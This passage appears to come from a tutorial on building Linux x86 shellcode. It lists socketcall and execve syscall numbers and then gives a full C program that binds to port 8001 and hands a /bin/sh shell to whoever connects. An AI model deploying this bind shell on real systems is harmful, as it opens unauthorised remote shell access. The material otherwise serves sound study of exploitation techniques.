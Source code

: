 To have all the necessary information, we gonna take a look at `/usr/include/asm/unistd.h`. Here we see : 

```C
	#define __NR_exit		  1 //0x01
	#define __NR_execve		 11 //0x0b
	#define __NR_dup2		 63	//0x3f
	#define __NR_socketcall		102	//0x66
```

so that means, for instance, that we should put `0x3f` in `%eax` before doing `int 0x80` and we also open `/usr/include/linux/net.h` and we see :

```C
	#define SYS_SOCKET	1		/* sys_socket(2)		*/
	#define SYS_BIND	2		/* sys_bind(2)			*/
	#define SYS_CONNECT	3		/* sys_connect(2)		*/
	#define SYS_LISTEN	4		/* sys_listen(2)		*/
	#define SYS_ACCEPT	5		/* sys_accept(2)		*/
```

that means that to call socket() for example we should put `0x01` in `%ebx`. Why `%ebx` ? We can see that when we disassemble the socket function. We'll see that soon. So now let's go... We gonna create our shellcode in **C** and  then disassemble it thru **gdb**. To do so, don't forget to compile with `-static` in order to have the right to disass the different `libc` function. here is the program in **C** to connect to the socket thru port 8001 and we use `dup2` to duplicate stdin, stdout and stderr to the socket with a loop and then we execute a shell.
	
		;================================================================;
		;	REMINDER : under Linux architecture to do syscall            ;
		;	%eax is always 0x66, %ebx contains the kind of call          ;
		;	and %ecx points on the args of the call		                 ;
		;================================================================;


```C
	#include <stdlib.h>
	#include <stdio.h>
	#include <unistd.h>
	#include <string.h>
	#include <sys/socket.h>
	#include <netinet/in.h>
	#include <arpa/inet.h>

	#define PORT 8001

	void binsh(void) {
		int sockfd, new_sockfd; // Listen on sockfd, new connection on newfd
		struct sockaddr_in host_addr; //, client_addr; // My addr info
		
		sockfd = socket(PF_INET, SOCK_STREAM, 0);
		
		host_addr.sin_family = AF_INET; // IPv4
		host_addr.sin_port = htons(PORT); //Short, network byte order
		host_addr.sin_addr.s_addr = 0; // Automatically fill with my IP
		//memset( &(host_addr.sin_zero), '\0', 8); // Zero the rest of the struct
		
		bind(sockfd, (struct sockaddr *) &host_addr, sizeof(struct sockaddr));
		
		listen(sockfd, 5);
		new_sockfd = accept(sockfd, NULL, NULL);

		dup2(new_sockfd, 0);
		dup2(new_sockfd, 1);
		dup2(new_sockfd, 2);

		execve("/bin/sh", NULL, NULL);
	}
```